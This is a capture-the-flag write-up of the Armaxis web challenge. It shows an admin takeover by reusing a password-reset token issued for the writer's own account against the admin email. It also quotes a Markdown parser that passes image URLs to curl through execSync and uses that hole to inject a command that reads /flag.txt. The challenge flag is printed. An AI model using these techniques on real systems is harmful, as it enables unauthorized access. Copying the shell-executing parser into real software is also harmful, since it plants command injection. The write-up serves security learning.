






# CTF Writeup: Armaxis Web Application Exploitation

## Introduction

In this writeup, we will go through the steps of exploiting a web application vulnerability in Armaxis. The objective is to gain unauthorized access to the system and retrieve the flag. The task involved manipulating an email token and exploiting a Markdown rendering function that allowed command injection.

### Step 1: Initial Recon

The challenge provided us with two endpoints:

- **Login Page**: `83.136.254.158:59440`
- **Email Server**: `http://83.136.254.158:59440/`

We began by analyzing these endpoints to understand the web application’s structure and functionality.

### Step 2: Discovering Admin Credentials in `database.js`

In the application’s JavaScript files, specifically `database.js`, we found the logic for seeding the admin account:

```javascript
const userCount = await get(`SELECT COUNT(*) as count FROM users`);
if (userCount.count === 0) {
  const insertUser = db.prepare(
    `INSERT INTO users (email, password, role) VALUES (?, ?, ?)`
  );
  const runInsertUser = promisify(insertUser.run.bind(insertUser));

  await runInsertUser(
    "admin@armaxis.htb",
    `${crypto.randomBytes(69).toString("hex")}`,
    "admin",
  );
  insertUser.finalize();
  console.log("Seeded initial users.");
}
```

While the password is dynamically generated and not easily accessible, this piece of information confirmed the existence of the admin account (`admin@armaxis.htb`).

### Step 3: Registering a New User

I registered a new user with the email `test@email.htb`, as this was the only available option from the email server. This email was not under my control, and I could not change it, but I proceeded to test the functionality of the web application.
<p align='center'>
  
</p>

### Step 4: Changing Password via Email Token

I attempted to change the password for the account. The system sent me a token via email to authorize the password change. The request format for changing the password was:

<p align='center'>
  
</p>
<p align='center'>
  
</p>


```json
{
  "token": "f7a6d595a8d73772d9ac8592eb5dcb2e",
  "newPassword": "1234",
  "email": "test@email.htb"
}
```

Using Burp Suite, I modified the request to target the admin account:

```json
{
  "token": "f7a6d595a8d73772d9ac8592eb5dcb2e",
  "newPassword": "1234",
  "email": "admin@armaxis.htb"
}
```

This successfully changed the admin password, granting me access to the admin account.

### Step 5: Weapon Dispatch Page

After gaining access to the admin account, I explored the application and discovered a page that allows dispatching weapons. The page requires the following parameters:

- Weapon Name
- Price
- User Email
- Note


### Step 6: Exploiting Markdown to Inject Commands

I noticed that the application used Markdown for handling content, specifically in the `markdown.js` file. The `parseMarkdown` function had the following code:

```javascript
function parseMarkdown(content) {
  if (!content) return '';
  return md.render(
    content.replace(/\!\[.*?\]\((.*?)\)/g, (match, url) => {
      try {
        const fileContent = execSync(`curl -s ${url}`);
        const base64Content = Buffer.from(fileContent).toString('base64');
        return ``;
      } catch (err) {
        console.error(`Error fetching image from URL ${url}:`, err.message);
        return `<p>Error loading image: ${url}</p>`;
      }
    })
  );
}
```

The `parseMarkdown` function is responsible for converting URLs within the Markdown content into embedded images. If the URL points to a file, it fetches the content using `curl` and embeds it as a base64-encoded image. 

This feature could be exploited by injecting a command into the URL. I crafted the following payload to inject the `cat /flag.txt` command into the `note` field:

```json
{
  "name": "test",
  "price": 123,
  "note": "",
  "dispatched_to": "admin@armaxis.htb"
}
```

This was submitted through the weapon dispatch page.
<p align='center'>
  
</p>

### Step 7: Retrieving the Flag

After dispatching the weapon, I inspected the page’s source code, where I found the following base64-encoded string in the `img` tag:

```html

```


Decoding the base64 string revealed the flag:

```
HTB{l00k0ut_f0r_m4rkd0wn_LF1_1n_w1ld!_77dc8b1336f1baae9eda2f402370ca30}
```

### Conclusion

Through email token manipulation and exploiting a Markdown parsing vulnerability, I was able to gain access to the admin account and retrieve the flag.

**Flag**: `HTB{l00k0ut_f0r_m4rkd0wn_LF1_1n_w1ld!_77dc8b1336f1baae9eda2f402370ca30}`
